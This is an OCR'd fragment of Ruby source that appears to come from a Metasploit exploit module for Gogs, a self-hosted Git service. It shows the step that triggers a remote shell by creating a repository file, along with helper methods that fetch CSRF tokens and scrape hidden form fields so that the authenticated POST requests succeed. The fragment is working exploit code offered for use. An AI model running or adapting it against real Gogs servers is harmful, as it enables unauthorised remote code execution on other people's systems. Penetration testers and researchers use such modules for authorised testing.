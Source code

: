         print_status('Create a dummy file on the repo to trigger the payload')
        last_chunk = cmd_list ? cmd == cmd_list.last : true
        gogs_create_file(last_chunk: last_chunk)
        print_good("File created#{', shell incoming...' if last_chunk}")
      end

      def http_post_request(uri, opts = {})
        csrf = opts.delete(:csrf) || get_csrf(uri)
        timeout = opts.delete(:timeout) || 20

        post_data = { _csrf: csrf }.merge(opts)
        request_hash = {
          'method' => 'POST',
          'uri' => normalize_uri(datastore['TARGETURI'], uri),
          'ctype' => 'application/x-www-form-urlencoded',
          'vars_post' => post_data
        }

        send_request_cgi(request_hash, timeout)
      end

      def get_csrf(uri)
        vprint_status('Get "csrf" value')
        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(uri)
        )
        unless res
          fail_with(Failure::Unreachable, 'Unable to get the CSRF token')
        end

        csrf = extract_value(res, '_csrf')
        vprint_good("csrf=#{csrf}")
        csrf
      end

      def extract_value(res, attr)
        # <input type="hidden" name="_csrf" value="Ix7E3_U_lOt-kZfeMjEll57hZuU6MTYxNzAyMzQwOTEzMjU1MDUwMA">
        # <input type="hidden" id="user_id" name="user_id" value="1" required>
        # <input type="hidden" name="last_commit" value="6a7eb84e9a8e4e76a93ea3aec67b2f70fe2518d2">
        unless (match = res.body.match(/<input .*name="#{attr}" +value="(?<value>[^"]+)".*>/))
          return fail_with(Failure::NotFound, "\"#{attr}\" not found in response")
        end

        return match[:value]
      end
